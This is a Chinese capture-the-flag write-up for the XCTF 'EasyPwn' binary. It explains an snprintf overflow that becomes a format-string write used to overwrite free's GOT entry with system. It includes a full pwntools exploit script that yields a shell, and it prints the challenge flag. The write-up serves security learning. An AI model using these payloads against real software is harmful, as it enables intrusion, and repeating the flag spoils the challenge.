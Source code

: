 # EasyPwn

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e0b4fb17-e276-41f7-97db-2ef982800258_2)

怎么老是忘了有改got表这个姿势呢？

-   Arch:     amd64-64-little
    <Br>RELRO:    Partial RELRO
    <Br>Stack:    Canary found
    <br>NX:       NX enabled
    <Br>PIE:      PIE enabled

差了relro，got表可改写。Partial RELRO=got表可改写，got表改写需要Partial RELRO。一句话用三种方式说，下次再不记得我觉得我还是别玩pwn了。

```c
undefined8 Main(void)
{
  int code;
  void *__buf;
  long in_FS_OFFSET;
  int i;
  char local_18 [8];
  long local_10;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  for (i = 0; i < 12; i = i + 1) {
    write(1,"Input Your Code:\n",0x11);
    __isoc99_scanf(&DAT_00100e5f,local_18);
    code = atoi(local_18);
    if (code == 1) {
      Vuln();
    }
    else {
      if (code != 2) break;
      __buf = malloc(0x100);
      write(1,"Input Your Name:\n",0x11);
      read(0,__buf,0x100);
      printf("OK!I Know Your Name :%sNow!",__buf);
      free(__buf);
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

看到下面的free没有置null，我第一反应是uaf。但是此题并没有利用uaf的地方，整个程序使用__buf的地方只有free和输出名字，和system毫无关系，也没溢出。将战场转向Vuln。

![vuln_snprintf](../../images/vuln_snprintf.png)

有很明显的栈溢出，包括read和snprintf。难道easyPwn真的这么简单？不可能，你会发现溢出的字符数量不够构造rop链，加上还有pie，rop不起来。知识盲区了，snprintf的溢出直接不知道怎么利用。来个[wp](https://blog.csdn.net/seaaseesa/article/details/103089382)分析分析。

根据snprintf的用法，参数1存储格式化完成后的字符串，参数2是大小，参数3是使用的格式化字符串，剩下的参数都是可变参数，由格式化字符串决定。这里的用法是将local_bf8按照uStack1040中的格式化字符串格式化后输出2000的大小到local_7f8中。虽然ghidra没有把uStack1040在栈上标出，但我们知道是按顺序压入栈中的，因此uStack1040在local_7f8上面，假如local_7f8溢出了会被覆盖掉。那么，我们可以溢出local_7f8，修改格式化字符串，达到任意地址的读写。

这就相当于有个可以任意控制的究极格式化字符串漏洞了，修改free的got表不是问题。不过也有技巧，可以只修改后4字节数据，毕竟free和system在libc中的位置偏差也就那么多，那么它们在内存中的地址，也就最后几字节不一样，我们只需覆盖最后几字节数据即可。这叫pritial write技术。至于为什么修改free，老朋友了，只需要一个参数且自由调用，system的天选替死鬼。

修改got表的前提是有got表。在正式开始改free的got表时，需要先使用一次free。

在进入Vuln函数前，发现栈里有一个__libc_start_main+F0的地址，我们可以利用snprintf把它的值暴露出来。此处需要知道snprintf格式化字符串的特性：snprintf会把格式化字符串的地址记下来，接着在每次处理一个字符时，会从记录的地址处取格式化字符串，然后再根据格式化字符串来处理字符。既然记录的是地址，如果中途地址对应的内容改变了，snprintf也不会管那么多，继续按照改变后的内容输出字符。

两者之间的差距是0x3E8 = 0x7F0(local_7f8位置) – 0x408(uStack1040位置)。ida里看得很清楚，ghidra里还要慢慢调试和计算。payload b"a"*0x3e8 + b"bb%396$p" 前面的a单纯是填充，正好覆盖到格式化字符串的位置。后面两个bb用于覆盖掉原来的格式化字符串%s，最后是完整的用于泄露地址的格式化字符串。溢出地址后算基地址这些相信大家都懂，继续到修改free的got表。

不能把p64(free+2)放格式化字符串的前面，因为p64(free+2)里面有0，会导致snprintf遇到0后就结束，不能读取到后面的格式化字符串。类似这样的payload就很不错：

- b"a"*0x3e8 + (b"bb%" + str(three_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr+2)

0x3e8个a填充，(b"bb%" + str(three_offset).encode() + b"c%133\$hhn").ljust(16,b"A")为覆盖后的格式化字符串，ljust填充到16是为了满足8字节对齐。我们所构造的格式化字符串可能会超过8字节，但不会超过16字节，所以填充到16正好。%133\$hhn将地址写入free_got_addr+2，也就是尾部字节，%133因为free_got_addr+2相对于格式化字符串是第133个参数。

如果got表改写成功，最后选择2输入/bin/sh就可以得到shell了。按照上面那个大佬的脚本失败了，[这个](https://pythontechworld.com/article/detail/BWJUgt51SNeS)成功了。真的太快乐了。

```python
from pwn import *
# from LibcSearcher import * 


context.log_level='debug'
context.terminal = ['terminator', '-x', 'sh', '-c']

io = remote("61.147.171.105",52725)


context(arch = "amd64", os = 'linux')

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
# gdb.attach(io,"b * 0x555555554c05")
payload = b"a"*0x3e8 + b"bb%397$p"
io.sendline(payload)

io.recvuntil("0x")
libc_start_main = io.recv(12)
libc_start_main = int(b"0x"+libc_start_main,16) - 240

log.info("libc_start_main: "+hex(libc_start_main))

libc_start_main_libc = 0x020740
log.info("libc_start_main_libc: "+hex(libc_start_main_libc))
system_addr = 	0x045390
log.info("system_addr: "+hex(system_addr))
offset = libc_start_main_libc - system_addr
# 24C50
system_real_addr = libc_start_main - offset
log.info("system_real_addr: "+hex(system_real_addr))


# libc_searcher = LibcSearcher("__libc_start_main",libc_start_main)
# libc_base = libc_start_main - libc_searcher.dump("__libc_start_main")
# system = libc_base + libc_searcher.dump("system")
# system_real_addr = system
# log.info("system_real_addr: "+hex(system_real_addr))


io.recvuntil("Input Your Code:")
io.sendline("2")
io.recvuntil("Input Your Name:")
io.sendline("healer")

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
payload = b"a"*0x3e8 + b"bb%396$p"
io.sendline(payload)

io.recvuntil("0x")
init_real_addr = io.recv(12)
init_real_addr = int(b"0x"+init_real_addr,16)
log.info("init_real_addr: "+hex(init_real_addr))

elf_base = 0xFFFFFFFFFFFFF000 & init_real_addr
free_got_addr = elf_base + 0x202018
log.info("free_got_addr: "+hex(free_got_addr))

# [*] system_real_addr: 0x7fc35da95fa0
# [*] system_real_addr: 0x7fef74ad8fa0


one_byte = 0x00000000000000FF & system_real_addr
two_byte = (0x000000000000FF00 & system_real_addr) >> 8
three_byte = (0x00000000FF0000 & system_real_addr) >> 16

one_offset = one_byte + 2
two_offset = two_byte + 2
three_offset = three_byte + 2

pattern_payload = (b"bb%" + str(one_offset).encode() + b"c%133$hhn").ljust(16,b"A")
# print(pattern_payload)

# print(one_offset,two_offset,three_offset)


io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
# payload = b"a"*0x3e8 + b"bb%135$p%136$p%137$p%138$p%139$p%140$p%141$p%142$p%143$p%144$p%145$p%146$p"
# payload = b"a"*0x3e0 + p64(free_got_addr) + b"bb%4154793912c%130$n" 
payload = b"a"*0x3e8 + (b"bb%" + str(one_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr) 
# payload = b"a"*0x3e8 + b"bb%8118c%135$hn%5c%136$hhnAAAAAA" + p64(free_got_addr) + p64(free_got_addr+2)
io.sendline(payload)
# 0x00007ffff7a91540 -> 0x7ffff7a523a0
# bb%8118c%135$hn%5c%136$hhnAAAAAA
# payload = b"a"*0x3e8 + b"bb%8118c%135$hn%5c%136$hhnAAAAAA" + p64(free_got_addr) + p64(free_got_addr+2)
# 83:0418│      0x7fffffffd568 —▸ 0x555555756018 —▸ 0x7ffff7a91540 (free) ◂— push   r13
# 84:0420│      0x7fffffffd570 —▸ 0x55555575601a ◂— 0xc6a000007ffff7a9

# 0x7ffff7a59f59 <printf_positional+8697>    mov    word ptr [rax], r15w
# 0x7ffff7a590f7 <printf_positional+5015>    mov    byte ptr [rax], r15b
# 0x7ffff7a59bd6 <printf_positional+7798>    mov    dword ptr [rax], r15d
# 0x7fffffffbfe0 ◂— 0x60186e6868243233

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
payload = b"a"*0x3e8 + (b"bb%" + str(two_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr+1) 
io.sendline(payload)

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
payload = b"a"*0x3e8 + (b"bb%" + str(three_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr+2) 
io.sendline(payload)


io.recvuntil("Input Your Code:")
io.sendline("2")
io.recvuntil("Input Your Name:")
io.sendline("/bin/sh")


io.interactive()
```

注意这个脚本有几率失败收到EOF，多试几次绝对能成功。而且这次getshell的位置和往常不一样，在根目录，要cd到home下的xctf下才能看到flag。

- ### Flag
  > cyberpeace{078be62ee3abb64f4f6815c8b1b02ebd}